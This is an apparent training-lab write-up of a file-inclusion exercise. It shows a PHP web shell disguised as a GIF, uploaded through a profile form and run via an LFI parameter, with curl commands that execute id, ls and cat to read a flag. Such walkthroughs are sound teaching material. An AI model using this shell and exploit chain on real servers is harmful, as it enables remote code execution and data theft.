


## Exercises

### Question 1 — Use any of the techniques covered in this section to gain RCE and read the flag at /

Landed on the profile settings page.

```
http://154.57.164.82:38368/settings.php
```



Crafted a malicious GIF image containing a PHP web shell:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif 
```

Selected the file in the upload dialog:



Uploaded it successfully:


Inspected the page source to find the uploaded file's path:

```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)"
    accept=".jpg,.jpeg,.png,.gif,.zip">

<input type="submit" value="Upload" id="submit">
```

Path confirmed as `/profile_images/shell.gif`. Included it through the LFI parameter with a test command:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s "http://154.57.164.82:38368/index.php?language=./profile_images/shell.gif&cmd=id"                                                      

<!DOCTYPE html>
—SNIP—
        <div class="description">
            <h1>History</h1>
            <h2>Containers</h2>
            GIF8uid=33(www-data) gid=33(www-data) groups=33(www-data)
            <p class="read-more">
                <a href="#">Read More</a>
            </p>
        </div>
—SNIP—
```

**Breakdown:**

- `language=./profile_images/shell.gif` includes the uploaded GIF directly, since the LFI parameter here doesn't prefix any directory onto the input
- `&cmd=id` the command passed to the embedded web shell
- `-s` runs curl silently, suppressing progress output

RCE confirmed — `id` returned `www-data`, with the leading `GIF8` magic bytes visible immediately before the command output in the response.

Searched the filesystem root for the flag, grepping around the known `Containers` heading to filter out page noise:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s "http://154.57.164.82:38368/index.php?language=./profile_images/shell.gif&cmd=ls%20%2F" | grep -i containers -A 1

            <h2>Containers</h2>
            GIF82f40d853e2d4768d87da1c81772bae0a.txt
```

**Breakdown:**

- `cmd=ls%20%2F` is the URL-encoded form of `ls /`, listing the filesystem root
- `| grep -i containers -A 1` filters the response down to the `Containers` heading and the single line after it, where command output lands

Found the file `2f40d853e2d4768d87da1c81772bae0a.txt` at root. Read it, quoting the filename since it starts with a digit:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s "http://154.57.164.82:38368/index.php?language=./profile_images/shell.gif&cmd=cat%20%2F%272f40d853e2d4768d87da1c81772bae0a.txt%27" | grep -i containers -A 1

            <h2>Containers</h2>
            GIF8—REDACTED—
```

**Breakdown:**

- `cmd=cat%20%2F%272f40d853e2d4768d87da1c81772bae0a.txt%27` is the URL-encoded form of `cat /'2f40d853e2d4768d87da1c81772bae0a.txt'`, with the filename wrapped in single quotes

**Answer:** `—REDACTED—`